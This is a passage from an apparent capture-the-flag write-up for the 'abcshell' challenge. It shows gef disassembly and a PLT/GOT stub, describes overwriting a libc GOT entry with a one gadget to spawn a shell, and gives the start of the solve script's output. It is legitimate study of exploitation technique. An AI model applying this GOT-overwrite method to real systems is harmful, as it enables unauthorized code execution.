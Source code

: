 The lion does not work hard for pwn.

We can view the first few instructions before #1 with `x/40i 0x00007ffff7e3d4a0-0x40`:

```
0x7ffff7e3d460:	add    BYTE PTR [rax],al
0x7ffff7e3d462:	cmp    QWORD PTR [rsp],0x0
0x7ffff7e3d467:	je     0x7ffff7e3f710
0x7ffff7e3d46d:	test   bpl,0x2
0x7ffff7e3d471:	jne    0x7ffff7e3e918
0x7ffff7e3d477:	movdqu xmm1,XMMWORD PTR [r12]
0x7ffff7e3d47d:	mov    rdi,QWORD PTR [rsp]
0x7ffff7e3d481:	mov    esi,0x25
0x7ffff7e3d486:	movups XMMWORD PTR [rsp+0xe8],xmm1
0x7ffff7e3d48e:	mov    rax,QWORD PTR [r12+0x10]
0x7ffff7e3d493:	mov    QWORD PTR [rsp+0xf8],rax
0x7ffff7e3d49b:	call   0x7ffff7e07150 <*ABS*+0x9d660@plt>
```

To then finally get the GOT entry that is called:

```
gef> disas 0x7ffff7e07150
Dump of assembler code for function *ABS*+0x9d660@plt:
   0x00007ffff7e07150 <+0>:	jmp    QWORD PTR [rip+0x1abf4a]        # 0x7ffff7fb30a0 <*ABS*@got.plt>
   0x00007ffff7e07156 <+6>:	push   0x24
   0x00007ffff7e0715b <+11>:	jmp    0x7ffff7e07000
End of assembler dump.
gef>
```

The rest of the exploit then boils down to selecting the correct one gadget, finding the offset of the one gadget from the original GOT entry, finding the offset of the GOT entry from our mmap chunk, and then adding the one gadget offset to the GOT entry to trigger our shell:

```
❯ python3 solve.py
[*] '/home/nikolawinata/Documents/ctf/sieberr/quals/abcshell/chal_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
[*] '/home/nikolawinata/Documents/ctf/sieberr/quals/abcshell/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[*] '/home/nikolawinata/Documents/ctf/sieberr/quals/abcshell/ld-linux-x86-64.so.2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Starting local process '/home/nikolawinata/Documents/ctf/sieberr/quals/abcshell/chal_patched': pid 77574
[DEBUG] Received 0xf bytes:
    b'alloc size? \n'
    b'> '
[DEBUG] Sent 0x8 bytes:
    b'1000000\n'
[DEBUG] Received 0xb bytes:
    b'offset? \n'
    b'> '
```